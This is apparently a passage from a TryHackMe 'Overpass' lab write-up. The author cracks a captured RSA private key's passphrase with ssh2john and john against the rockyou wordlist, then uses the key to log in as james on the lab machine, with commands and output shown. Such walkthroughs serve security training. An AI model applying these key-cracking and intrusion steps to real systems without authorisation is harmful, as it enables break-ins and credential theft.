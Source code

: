 <a href="/assets/images/tryhackme/overpass/7.png"><img src="/assets/images/tryhackme/overpass/7.png"></a>

We got James RSA private key! Since it has passhphrase, let's crack it using `john`.

```bash
$ locate ssh2john      
/usr/share/john/ssh2john.py
                                                                                                                                                      
┌──(kali㉿kali)-[~]
└─$ python /usr/share/john/ssh2john.py id_rsa > id_rsa_new
                                                                                                                                                      
┌──(kali㉿kali)-[~]
└─$ john --wordlist=/usr/share/wordlists/rockyou.txt id_rsa_new
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 6 OpenMP threads
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
james13          (id_rsa)
```

We got it, let's SSH using james private key.

```bash
$ ssh -i id_rsa james@10.10.235.0 
The authenticity of host '10.10.235.0 (10.10.235.0)' can't be established.
ECDSA key fingerprint is SHA256:4P0PNh/u8bKjshfc6DBYwWnjk1Txh5laY/WbVPrCUdY.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.235.0' (ECDSA) to the list of known hosts.
Enter passphrase for key 'id_rsa': 
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 4.15.0-108-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Thu Jan 28 15:38:09 UTC 2021

  System load:  0.0                Processes:           87
  Usage of /:   22.3% of 18.57GB   Users logged in:     0
  Memory usage: 14%                IP address for eth0: 10.10.235.0
  Swap usage:   0%


47 packages can be updated.
```